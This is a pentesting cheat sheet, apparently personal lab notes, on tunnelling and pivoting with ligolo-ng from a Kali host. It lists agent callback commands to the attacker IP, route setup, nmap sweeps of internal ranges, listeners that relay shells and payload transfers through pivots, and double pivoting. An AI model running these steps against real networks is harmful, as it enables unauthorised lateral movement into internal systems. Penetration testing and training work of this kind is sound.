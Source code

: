 # Tunnelling
*   Setup
    *   Kali        → `ligstart()`
    *   Pivot     → `ligolo-agent -connect [KALI_IP]:11601 -ignore-cert`
    *   Kali        → Select Session → `start` 
    *   Kali        → Add Route        → `sudo ip route add [CIDR] dev ligolo`
*   Local Forwarding
    *   Route    → `240.0.0.1`
    *   Access   → `240.0.0.1:[PORT]` (Universal IP - Change Session to access other pivots)
*   Intranet Pivoting
    *   Route → `[INTRANET_CIDR]`
    *   Network Scanning
        *   `sudo nmap -PE -sn  [INTRANET_CIDR]`
        *   `sudo nmap -PE -sCV [INTRANET_IP]`
    *   Shells / Transfers
        *   Kali → `listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:8000 --tcp` 
        *   Kali → `listen() 8000` / `httpserv() 8000`
        *   Requests/Payloads → `[PIVOT_INTRANET_IP]:30000`
    *   Double Pivoting
        *   Kali                   → Select Pivot Session + `listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp`
        *   Second Pivot → `ligolo-agent -connect [FIRST_PIVOT_INTRANET_IP]:11601 -ignore-cert`
        *   Kali                   → Select Session + `start` + `sudo ip route add [SECOND_INTRANET_CIDR] dev ligolo`